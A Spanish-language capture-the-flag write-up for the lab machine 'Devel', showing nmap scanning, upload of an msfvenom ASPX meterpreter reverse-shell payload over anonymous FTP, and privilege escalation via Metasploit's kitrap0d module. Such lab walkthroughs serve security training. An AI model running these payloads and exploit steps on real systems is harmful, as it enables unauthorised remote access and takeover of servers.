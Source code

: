 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 3/10/2017'
---
```


# Devel

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.5
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-15 154035.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.5
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 21 (FTP):** FTP es un protocolo de transferencia de archivos, y su mayor riesgo es la posibilidad de acceso anónimo o el uso de credenciales débiles. Asegúrate de verificar si el acceso anónimo está habilitado, ya que esto permitiría a cualquier persona conectarse sin credenciales. También es importante comprobar si el servidor está configurado para permitir la conexión sobre FTP sin cifrado, ya que los datos y las credenciales se transmiten en texto claro, lo que facilita la interceptación.
* **Puerto 80 (HTTP):** Este puerto generalmente está asociado a servidores web. Si el servicio está ejecutando un servidor web como Apache, Nginx o IIS, es recomendable buscar vulnerabilidades conocidas relacionadas con el software y versiones en uso (por ejemplo, a través de CVEs). Además, es importante realizar pruebas de seguridad en las aplicaciones web que se ejecutan en el servidor, como inyecciones SQL, Cross-Site Scripting (XSS) o vulnerabilidades de escalada de privilegios.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,80 -v 10.10.10.5
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es un **Microsoft IIS**. Como tenemos el puerto 21 con el usuario Anonymous podemos subir un archivo **.aspx** y hacer una Reverse Shell.

### 🚀 **EXPLOTACIÓN**

Creamos el archivo malicioso.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx -o shell.aspx
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lo subimos a través de FTP.

```bash
ftp 10.10.10.5
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos mediante la URL y conseguimos la conexión con **meterpreter**.

```
shell
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se accede al directorio `C:\Windows\TEMP` para operar en un área temporal segura.

```bash
meterpreter > cd %TEMP%
meterpreter > pwd
```

Se mantiene la sesión abierta mientras se ejecutan otros módulos en Metasploit.

```bash
meterpreter > background
```

Buscar el módulo de recomendación de exploits locales y ejecutarlo.

```
msf6 exploit(multi/handler) > search suggester
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > show options
msf6 post(multi/recon/local_exploit_suggester) > sessions -l
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el exploit `exploit/windows/local/ms10_015_kitrap0d.`

```bash
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.7
msf6 exploit(windows/local/ms10_015_kitrap0d) > sessions -l
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 2
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

